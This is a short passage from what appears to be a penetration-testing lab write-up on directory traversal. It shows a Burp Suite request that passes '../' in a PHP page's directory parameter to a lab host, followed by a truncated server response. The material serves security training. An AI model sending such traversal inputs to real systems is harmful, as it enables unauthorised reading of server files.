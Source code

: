 ```http

</div>

[...]
```

![Lab - Directory Traversal](./assets/file_and_resource_attacks_lab_directory_traversal_2.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_2.php?directory=../ HTTP/1.1 📌
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:10:00 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14493
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

```